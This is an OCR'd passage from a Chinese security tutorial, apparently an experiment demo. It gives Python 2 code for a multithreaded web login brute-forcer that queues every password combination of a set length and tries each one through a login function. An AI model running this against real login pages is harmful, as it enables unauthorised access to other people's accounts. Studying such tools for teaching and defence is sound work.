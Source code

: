 模拟登陆的功能由之前实现的`login`函数完成，实验demo的口令生成过程比较简单，可以放在构造函数中。编写`brute`函数来负责破解子线程的生成，线程函数为`web_bruter`。首先编写构造函数：

```
# characters为字符串，包含组成口令的所有字符
# threads为线程个数，pwd_len为生成的测试口令的长度
def __init__(self,user,characters,pwd_len,threads):
		self.user = user
		self.found = False
        	self.threads = threads
		print '构建待测试口令队列中...'
		self.pwd_queue = Queue.Queue()
		for pwd in list(itertools.product(characters,repeat=pwd_len)):
			self.pwd_queue.put(''.join(pwd))
		self.result = None
		print '构建成功!'
```

类中各属性意义如下：

| 属性名 | 含义 | 类型 |
|:-------|:-----|:-----|
| user | 用户账号名称 | 字符串 |
| found | 破解成功的标志 | 布尔值 |
| pwd_queue | 包含所有测试口令的队列Queue | Queue对象 |
| result | 最终破解出的正确口令 | 字符串 |

接着是破解子线程函数`web_bruter`,将它设为私有函数。循环从口令队列中获取测试口令并进行模拟登录测试。如果登录成功，将破解成功的标志属性`self.found`设为`True`以提醒其他线程停止猜解;此外，将当前测试口令保存到`self.result`中，并打印出破解成功的信息。

```
def __web_bruter(self):
		while not self.pwd_queue.empty() and not self.found:
			pwd_test = self.pwd_queue.get()
			if self.__login(pwd_test):
				self.found = True
				self.result = pwd_test
				print '破解 %s 成功，密码为: %s' % (self.user,pwd_test)
			else:
				self.found = False
```

类中的`__login`函数修改下参数即可，此处不再重列。


最后是主线程函数`brute`，由它生成子线程并汇报破解进度。

```
def brute(self):
		for i in range(self.threads):
			t = threading.Thread(target=self.__web_bruter)
			t.start()
			print '破解线程-->%s 启动' % t.ident
		while(not self.pwd_queue.empty()):
			sys.stdout.write('\r 进度: 还剩余%s个口令 (每1s刷新)' % self.pwd_queue.qsize())
			sys.stdout.flush()
			time.sleep(1)
		print '\n破解完毕'
```
